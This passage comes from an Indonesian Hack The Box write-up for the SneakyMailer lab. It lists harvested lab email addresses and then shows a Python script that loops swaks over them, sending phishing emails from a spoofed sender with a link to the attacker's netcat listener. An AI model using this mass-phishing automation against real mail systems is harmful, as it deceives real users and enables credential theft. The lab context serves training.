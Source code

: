 ```
prescottbartlett@sneakymailer.htb
quinnflynn@sneakymailer.htb
rhonadavidson@sneakymailer.htb
sakurayamamoto@sneakymailer.htb
sergebaldwin@sneakymailer.htb
shaddecker@sneakymailer.htb
shouitou@sneakymailer.htb
sonyafrost@sneakymailer.htb
sukiburks@sneakymailer.htb
sulcud@sneakymailer.htb
tatyanafitzpatrick@sneakymailer.htb
thorwalton@sneakymailer.htb
tigernixon@sneakymailer.htb
timothymooney@sneakymailer.htb
unitybutler@sneakymailer.htb
vivianharrell@sneakymailer.htb
yuriberry@sneakymailer.htb
zenaidafrank@sneakymailer.htb
zoritaserrano@sneakymailer.htb
```

### User

Untuk mengecek email mana yang valid kita akan menggunakan "Swiss Army Knife" untuk SMTP Protocol, sebuah tool mirip dengan netcat yang bernama swaks

Kita akan melakukan "phising", phising yang dimaksud ketika bermain di HTB adalah kita mengirimkan URL yang akan di klik oleh active user nya untuk mendapatkan informasi lebih tentang target kita.

- Step 1 , membuka netcat listener

- Step 2 , membuat python script untuk mengotomatisasi pengiriman email menggunakan swaks

- Step 3 , tunggu request yang masuk (berhasil phising)

Script yang dibuat penulis adalah sebagai berikut

```
import os

emails = []

with open("team", "r") as f:
	emails = f.readlines()

for email in emails:
	os.system("swaks --from angelicaramos@sneakymailer.htb --body 'http://10.10.14.2:8000' --to "+email.strip())
```
![Image](img/4.PNG)
